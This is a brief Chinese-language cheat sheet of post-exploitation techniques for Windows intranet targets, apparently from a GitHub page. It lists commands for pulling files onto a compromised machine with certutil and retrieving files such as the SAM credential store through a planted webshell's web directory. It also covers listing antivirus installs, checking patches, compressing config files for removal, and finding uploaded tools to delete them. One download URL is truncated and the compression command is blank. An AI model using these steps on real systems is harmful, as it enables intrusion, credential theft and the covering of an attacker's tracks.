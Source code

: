 ## 内网技巧

### 在目标机器上下载

1. 使用certutil命令

    `certutil.exe -urlcache -split -f https:// file.txt`

### 从目标机器下载文件

1. 通过web目录从目标机器上下载文件(如sam文件等),找到web目录：

    `dir ../ /s /b | findstr [name of webshell] `

### 查看杀软

```
dir c:\program~1
dir c:\program~2
```

### 查看最新补丁

`wmic qfe`

### 压缩文件


1. rarlab下载rar.exe

2. 上传至目标服务器

3. 压缩所有的config文件：

`

`

### 文件按时间排序(删除上传的工具)

`dir /od`



